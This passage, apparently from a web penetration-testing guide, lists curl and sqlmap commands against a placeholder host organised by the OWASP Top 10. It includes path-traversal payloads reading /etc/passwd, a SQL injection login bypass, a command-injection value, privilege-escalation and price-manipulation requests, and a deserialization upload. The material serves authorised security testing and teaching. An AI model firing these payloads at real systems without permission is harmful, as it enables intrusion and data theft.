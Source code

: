 ```bash
curl "http://target.com/page.php?file=..%2f..%2f..%2fetc%2fpasswd"         # URL encoding
curl "http://target.com/page.php?file=..%252f..%252f..%252fetc%252fpasswd" # Double URL encoding
curl "http://target.com/page.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd" # Full encoding
```

## OWASP Top 10 Testing Methodology

### **Systematic OWASP Top 10 Testing Approach**

**Why OWASP Top 10 methodology is important:** Provides structured approach to web application testing, ensures comprehensive coverage of most critical vulnerabilities.

```bash
# A01: Broken Access Control
# Test for horizontal and vertical privilege escalation
curl -b "session=user1_session" http://target.com/profile.php?user_id=2     # Horizontal escalation
curl -b "session=user_session" -X POST -d "role=admin" http://target.com/update_profile.php  # Vertical escalation

# A02: Cryptographic Failures
# Test for weak encryption and exposed sensitive data
curl -k https://target.com                   # Check SSL/TLS configuration
curl http://target.com/config.php            # Look for exposed configuration files
curl http://target.com/backup.sql            # Check for database backups

# A03: Injection (SQL, NoSQL, OS Command, LDAP)
# Comprehensive injection testing (covered in detail above)
sqlmap -u "http://target.com/page.php?id=1" --batch
curl -X POST -d "ip=127.0.0.1; whoami" http://target.com/ping.php

# A04: Insecure Design
# Test business logic and application flow
curl -X POST -d "step=3" http://target.com/checkout.php  # Workflow bypass
curl -X POST -d "price=0.01" http://target.com/purchase.php  # Price manipulation

# A05: Security Misconfiguration
# Check for default configurations and unnecessary features
curl http://target.com/admin/                # Default admin interfaces
curl -X OPTIONS http://target.com/           # Dangerous HTTP methods
curl http://target.com/.git/config           # Exposed version control

# A06: Vulnerable and Outdated Components
# Check component versions and known vulnerabilities
whatweb http://target.com                    # Technology identification
curl http://target.com/vendor/composer.json  # Dependency information

# A07: Identification and Authentication Failures
# Test authentication mechanisms (covered in detail above)
curl -X POST -d "username=admin&password=" http://target.com/login.php  # Empty password
curl -X POST -d "username=admin' OR '1'='1'--&password=any" http://target.com/login.php

# A08: Software and Data Integrity Failures
# Test for insecure deserialization and supply chain attacks
curl -X POST -H "Content-Type: application/x-java-serialized-object" --data-binary @malicious.ser http://target.com/api
curl http://target.com/package.json          # Check for dependency confusion

# A09: Security Logging and Monitoring Failures
# Test for proper logging and monitoring (mostly manual review)
curl -X POST -d "username=admin&password=wrong" http://target.com/login.php
# Check if failed login attempts are logged and monitored

# A10: Server-Side Request Forgery (SSRF)
```